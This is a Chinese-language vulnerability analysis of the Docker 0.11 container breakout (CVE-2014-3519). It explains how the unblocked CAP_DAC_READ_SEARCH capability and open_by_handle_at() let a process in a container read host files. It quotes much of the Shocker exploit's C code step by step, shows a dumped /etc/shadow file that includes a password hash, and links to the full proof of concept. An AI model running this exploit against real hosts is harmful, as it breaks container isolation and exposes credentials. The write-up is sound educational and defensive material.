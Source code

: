 ##Docker 0.11 - VMM-Container Breakout

##漏洞类型：
容器逃逸  本地安全限制绕过

##组件介绍：
docker是一个开源的容器引擎，它对LXC进一步的封装，达到操作系统层面上的虚拟化

##漏洞分析：
docker0.11之前版本的open_by_handle_at()函数允许进程访问file_handle结构的已加载文件系统上的文件，该结构暴力试验inode数字区分文件，本地攻击者可利用此漏洞绕过某些安全限制并执行未授权操作。

##具体分析：
docker0.11之前的版本采用黑名单的形式来限制容器的能力，此次能够逃逸的原因是没有禁止open_by_handle_at()函数的CAP_DAC_READ_SEARCH能力。有关CAP_DAC_READ_SEARCH请查阅[capabilities的文档](http://man7.org/linux/man-pages/man7/capabilities.7.html)  
关于CAP_DAC_READ_SEARCH的描述如下：

    * Bypass file read permission checks and directory read and
      execute permission checks;
    * Invoke open_by_handle_at(2).

如上可知open_by_handle_at函数可以读取任意文件和文件夹

[open_by_handle_at](http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html)的定义如下：

    int open_by_handle_at(int mount_fd, struct file_handle *handle,int flags);

- mount_fd 指向某一个文件系统中的文件或者目录的文件描述符
- file_handle 描述一个文件或者目录
[file_handle结构](http://lxr.free-electrons.com/source/include/linux/fs.h#L877)如下:   

<p><code>
     struct file_handle {
          unsigned int  handle_bytes;   /* Size of f_handle [in, out] */
          int           handle_type;    /* Handle type [out] */
           unsigned char f_handle[0];    /* File identifier (sized by
                                                    caller) [out] */
        };
    
</code></p>       

- flags   The flags argument is as for open(2).

file_handle结构中f_handle[0]为8位inode号，在大多数的文件系统中，根目录的inode号为2，这样，攻击者可以通过打开根目录比较目录名和文件，遍历inode号达到查看任意文件的目的

##具体过程：
以查看/etc/shadow为例
第一步设置根目录的文件信息

    struct my_file_handle root_h = {
            .handle_bytes = 8,
            .handle_type = 1,
            .f_handle = {0x02, 0, 0, 0, 0, 0, 0, 0}
            //根目录的inode号为2
        };
第二步打开随意文件，获得文件描述符

    //打开宿主机器上的随意文件 获得文件描述符
    if ((fd1 = open("/.dockerinit", O_RDONLY)) < 0)
        die("[-] open");
第三步利用文件描述符 根目录的信息 得到/etc/shadow的文件信息

    if (find_handle(fd1, "/etc/shadow", &root_h, &h) <= 0)
        die("[-] Cannot find valid handle!");
这个过程是一个迭代的过程，涉及到：
查找目录：

        //打开文件
        if ((fd = open_by_handle_at(bfd, (struct file_handle *)ih, O_RDONLY)) < 0)
            die("[-] open_by_handle_at");
        //打开目录
        if ((dir = fdopendir(fd)) == NULL)
            die("[-] fdopendir");
        for (;;) {
            //读取目录项
            de = readdir(dir);
            if (!de)
                break;
            fprintf(stderr, "[*] Found %s\n", de->d_name);
            //判断目录名
            if (strncmp(de->d_name, path, strlen(de->d_name)) == 0) {
                fprintf(stderr, "[+] Match: %s ino=%d\n", de->d_name, (int)de->d_ino);
                ino = de->d_ino;
                break;
            }
        }
这个过程找到/etc目录，得到/etc的inode号

暴力试验inode数字，找到文件：

        if (de) {
            //暴力破解inode号
            for (uint32_t i = 0; i < 0xffffffff; ++i) {
                outh.handle_bytes = 8;
                outh.handle_type = 1;
                memcpy(outh.f_handle, &ino, sizeof(ino));//得到的/etc的inode号
                memcpy(outh.f_handle + 4, &i, sizeof(i)); //只暴力破解后4位
                if ((i % (1<<20)) == 0)
                    fprintf(stderr, "[*] (%s) Trying: 0x%08x\n", de->d_name, i);
                if (open_by_handle_at(bfd, (struct file_handle *)&outh, 0) > 0) {
                    closedir(dir);
                    close(fd);
                    dump_handle(&outh);
                    return find_handle(bfd, path, &outh, oh);
                }
            }
        }

第四步 读取文件信息

        //根据文件信息 打开文件
        if ((fd2 = open_by_handle_at(fd1, (struct file_handle *)&h, O_RDONLY)) < 0)
            die("[-] open_by_handle");
        memset(buf, 0, sizeof(buf));
        if (read(fd2, buf, sizeof(buf) - 1) < 0)
            die("[-] read");

最终达到读取宿主机器任意文件信息的效果
读取的/etc/shadow文件信息

    root:!:15597:0:99999:7:::
    daemon:*:15597:0:99999:7:::
    bin:*:15597:0:99999:7:::
    sys:*:15597:0:99999:7:::
    sync:*:15597:0:99999:7:::
    games:*:15597:0:99999:7:::
    man:*:15597:0:99999:7:::
    lp:*:15597:0:99999:7:::
    mail:*:15597:0:99999:7:::
    news:*:15597:0:99999:7:::
    uucp:*:15597:0:99999:7:::
    proxy:*:15597:0:99999:7:::
    www-data:*:15597:0:99999:7:::
    backup:*:15597:0:99999:7:::
    list:*:15597:0:99999:7:::
    irc:*:15597:0:99999:7:::
    gnats:*:15597:0:99999:7:::
    nobody:*:15597:0:99999:7:::
    libuuid:!:15597:0:99999:7:::
    syslog:*:15597:0:99999:7:::
    messagebus:*:15597:0:99999:7:::
    ntp:*:15597:0:99999:7:::
    sshd:*:15597:0:99999:7:::
    vagrant:$6$aqzOtgCM$OxgoMP4JoqMJ1U1F3MZPo2iBefDRnRCXSfgIM36E5cfMNcE7GcNtH1P/tTC2QY3sX3BxxJ7r/9ciScIVTa55l0:15597:0:99999:7:::
    vboxadd:!:15597::::::
    statd:*:15597:0:99999:7:::


##漏洞验证方式：  
docker version 版本 <=0.11 均存在漏洞  
[poc](http://stealth.openwall.net/xSports/shocker.c) 可验证

##影响版本：
docker版本 <=0.11 均存在漏洞

##相同漏洞：  
- [CVE-2014-3519](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3519)


##参考链接：
- http://man7.org/linux/man-pages/man2/open_by_handle_at.2.html
- http://man7.org/linux/man-pages/man7/capabilities.7.html
- http://stealth.openwall.net/xSports/shocker.c
- https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3#.80qhbidek